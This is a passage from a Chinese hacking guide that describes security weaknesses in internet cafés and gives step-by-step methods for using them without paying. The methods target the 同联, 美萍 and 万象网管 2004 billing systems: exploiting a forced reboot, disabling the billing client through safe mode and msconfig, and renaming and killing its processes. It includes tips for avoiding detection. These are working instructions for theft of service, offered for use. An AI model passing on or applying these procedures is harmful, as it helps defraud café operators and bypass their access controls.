

图 1.16



图 1.17

### 1.4 网吧的若干 bug

- 安装软件的泄密。网吧一般会将一些重要的工具放到一个目录中。有的是存放在“server/工具/网吧工具”，也有的是放到“网友公用”中的某一目录下。反正只要仔细找，通常都会找到的。有好几次我都是在这样的目录中直接发现了破解软件的方法。在一家网吧我发现了一款叫做“还原精灵 5.0 清除器”的软件，在另一家则发现了“还原精灵密码读取器”。我不明白网管们为何要存放这类工具，难道是怕自己忘记了密码？不过，不管如何，总之是方便了我们这些网吧小黑，如图 1.18。
- 密码保护意识和水平差。有的网管为图方便，客户端电脑从来都是被设置成自动登录或是口令为空什么的，有的甚至连管理软件的默认密码也没有更改，直接使用，或是改成了 123456、网吧电话号码等这类极易被猜测出来的密码。
- 网管的安全意识极差，杀毒软件不及时升级，Windows 系统的升级包也不注意更新。这使得系统无法有效地防范住最新的木马、病毒以及最新的一些针对系统漏洞的攻击。



图 1.18

管理维护一个网吧是一件相当繁琐的事儿，所以大部分的网管都是采用制作母盘进行克隆的方法来减少自己的工作量，但方便的同时也可能带来相当严重的安全隐患。因为这么做也就意味着网吧中所有的客户机都是相同的配置，包括登录账号和密码等。

## 第2章 网吧免费上

（底部有一段倾斜排版的中文宣传/说明文字，字形噪点较重，无法可靠完整辨识）

### 2.1 无工具免费上网篇

#### 2.1.1 小 CASE 对付同联计费系统

具体做法是当我们正常上机而钱快要用完时，比如现在是 12 点 29 分（图 2.1），可以看到同联的标志在桌面上。过了一会儿，12 点 32 分了（图 2.2），就快没钱了，一会儿会提示我们到时间的（还没提示我到时间呢，现在我们先去黑 X 论坛转转）。





就在我等得有点儿不耐烦的时候，12:42 分，终于提示我了（图 2.3）。此时在桌面上打开记事本（当然使用其他类似的也可以，小菜们可以举一反三，比如写字板、画图软件等等），随便在里面写几个字，但不保存，点击最小化。接着到时间了，电脑就会重新启动，很多网吧都是这样设置的，这也是为了防止某些顾客赖着不走，但此时你会发现，桌面上所有的运行程序都不见了，但是却会发现弹出了一个对话框（图 2.4），询问我们是否保存。还是不管它，等待几秒钟，会提示一个冲突，关闭掉，然后就可以随心所欲地上网了。





12 点 47 分了，我还在上着免费的网呢，而且大家也可以看到任务栏已经没有了那个同联的标志了（图 2.5），当然主机那里也已经不会记你的费了！如果这个网吧设置的是即使时间到了，电脑也不自动重启，而是出来一个锁机画面，把电脑给锁上了，这种情况也好办，我们自己按下开机键就可以了。



- **优点：** 看电影、听歌曲、浏览网页、开 QQ，想做什么就做什么。和正常加钱一样，不影响任何使用。
- **缺点：** 吧台显示你使用的电脑为空闲状态，所以只要没顾客上你的电脑，你就可以一直免费下去；不然的话，那你就只好让给他们了（这里秘诀是，到网吧里尽量找一些偏僻的地方，一般顾客是不乐意去的，这样就可以一直免费上网了）。
- **测试环境：** Windows 98/XP 统统适用。

#### 2.1.2 轻松破解美萍网吧管理专家

当我们的钱用完的时候，美萍会弹出一个对话框，写道：“对不起，你的卡值已经倒数！请重新输入卡号！”重启后，试着按下 F8，成功进入安全模式，再也没有对话框要求我输入卡号了（因为在安全模式下是没办法上网的，一般都是在这个模式下清除病毒的）。于是，我打开开始菜单，点击“运行”，在“运行”框里输入“msconfig.exe”，如图 2.6。进入后可以看到里面有几个选项按钮。点击“启动”，在下面便会出现几十个复选框按钮（这里是管理员在设定电脑启动时要一起启动的软件），如图 2.7。不一会儿便找到“网吧管理专家软件”的选择项，把前边的那个勾取消掉，重新启动。

等了几秒钟，电脑启动了，好耶！再也没有对话框要求输入卡号了，现在大家又可以免费上网了！有时，遇到有的网吧在启动时不能按 F8 的话，你可以先听他的话，启动后输入卡号和密码，登录后上网，打开浏览器，点击上面的“查看”->“浏览栏”->“文件夹”，打开 C 盘，点击 WINDOWS 文件夹（图 2.8），在 SYSTEM 文件夹里，就可以找到 msconfig.exe 了。







图 2.8

或者使用一个百试百灵的绝招：在还启动 Windows 时显示的第一个 logo 图片后（注：就是人们所谓的蓝天白云），当屏幕左上方有一个小小的下划线闪烁时，就重新启动系统。呵呵，看看，下次启动时就可以选择进入安全模式了，这是利用了 Windows 的非法关机安全机制来实现的，不错吧！当然，你重启的时间要恰到好处，早了不行，晚了也不行，呵呵，多练练吧！不过，并不是每一家网吧都有这么弱智型的漏洞的哟！

#### 2.1.3 瞬间破解万象网管 2004 计费系统



图 2.9

首先我们打开桌面上的“我的电脑”，然后直接进入 C 盘，找到 WINDOWS 文件夹，打开之后找到 system32 文件夹，在里面找到 Climan 和 Clsmn 这两个文件，如图 2.9。把这两个文件的名字全改了，爱改什么改什么。我喜欢数字，一个改为了 111，另一个改成了 222。然后同时按下“Ctrl+Alt+Delete”三个按键，调出 Windows 任务管理器，在进程中找到 Climan 和 Clsmn，结……终止进程（图2.10）。接着，电脑就会自动注销，等到重新登录后，就会发现我们已经是在免费上网了。

#### 2.1.4 再破万象网管计费系统

首先打开“网络连接”，点击“本地连接”，如图2.11。

